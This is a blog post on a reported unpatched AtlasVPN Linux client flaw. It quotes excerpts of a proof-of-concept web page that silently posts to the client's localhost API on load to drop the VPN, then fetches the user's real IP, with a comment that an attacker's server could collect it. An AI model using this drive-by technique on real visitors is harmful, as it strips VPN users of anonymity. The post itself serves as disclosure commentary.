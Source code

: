 ```yaml
---
title: Unpached AtlasVPN Exploit - Proof of Concept
date: 2023-09-03 12:00:00 +0800
categories: [VPN]
tags: [atlas vpn, privacy, exploit]     # TAG names should always be lowercase
toc: true
math: true
---
```


# Atlas VPN 
VPNs have seen a massive increase in usage in the last few years[^footnote1], with a popular provider 'Atlas VPN' reportedly gaining more than six million users before being bought out by Nord Security, owners of NordVPN [^footnote2]. NordVPN has been extensively criticized for false advertising,[^footnote3] as well as its response to a data breach in 2019 - in which private keys and root access were compromised - which the company took more than 18 months to reveal.[^footnote4]

It appears their inability to secure their services has occurred again.  

# The Exploit
Two days ago, a throwaway account named ‘Educational-Map-8145’ (I’ll call them ‘EM8’) posted on the Cybersecurity subreddit what they claimed to be an unpached exploit for the AltasVPN on Linux.  After execution this code could disconnect the “AtlasVPN linux client and leak the users IP address”. [^footnote5] 

According to EM8, the AtlasVPN runs both a client and a daemon, and the client connects via “API on localhost on port 8076”. As any program can access localhost -  including websites - the malicious javascript could be run in any website to cause the VPN to disconnect, exposing the real IP of the user, which can be collected (included in the PoC script). Fortunately, EM8 firmly stated that the code was “not intended for illegal purposes”, so AltasVPN users should be fine.

# Breakdown of Script
Step 1: Send a command to stop the VPN

```
</code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </form>
   <script>
    window._currentIP = false;
     // Run main exploit code
    window.addEventListener('load', function () {
      addIPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // Blind CORS request to atlasvpnd to disconnect the VPN
    function triggerFormSubmission() {
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] Sending disconnect request to atlasvpnd...\n";
      document.getElementById('stopForm').submit();
```

Step 2: Grab Real IP address
   
```
     // Gets IP from ipfy API (this, of course, could be your server)
    function addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = function () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var response = JSON.parse(xhr.responseText);
          ipAddress = response.ip;
           logDiv.innerHTML += '[?] Current IP:' + ipAddress + "\n";
```

> The Reddit poster has the code in [full](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/).
{: .prompt-info }

# Confirmation 

| Click Box Below for PoC Video |
| --- | 
| ![ - - - - - - - Proof of Concept - Click here to View - - - - - - - ](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/997/661/288/787/693/original/a209c146534a35a3.mp4) | 

In a post from Chris Partridge on Mastodon, he called the “hilarious[ly]” bad security “utter garbage”.[^footnote7]  Also included with the exposé was a video which appears to demonstrate the Proof of Concept for the dropped connection, as well as the explanation that since it makes "simple request" this allows it to slip past Cross-Origin Resource Sharing ([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)). 


![CORS vs Exploit](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/998/159/997/223/316/original/88d1a449d7380696.png)


# AtlasVPN Response (or Lack Thereof)
In the original reddit post, EM8 claims they tried to contact AtlasVPN about the issue but received “no answer” and saw “[no] signs of a bug bounty programme”. In fact, the response was so lacking and the fact that the security “suck[ed] so massively” they found it “hard to believe this is a bug rather than a backdoor”. 

Yikes.

Hopefully Atlas will address the exploit with the same speed as NordVPN. So only 18 months to go.

> I have not verified the PoC myself. Don't use it maliciously. 
{: .prompt-warning }

[^footnote1]: [https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/](https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/)
[^footnote2]: [https://www.comparitech.com/vpn/reviews/atlas-vpn-review/](https://www.comparitech.com/vpn/reviews/atlas-vpn-review/)
[^footnote3]: [https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi](https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi)
[^footnote4]: [https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/](https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/)
[^footnote5]: [https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/)
[^footnote7]: [https://cybersecurity.theater/@tweedge/110997661135498890](https://cybersecurity.theater/@tweedge/110997661135498890)
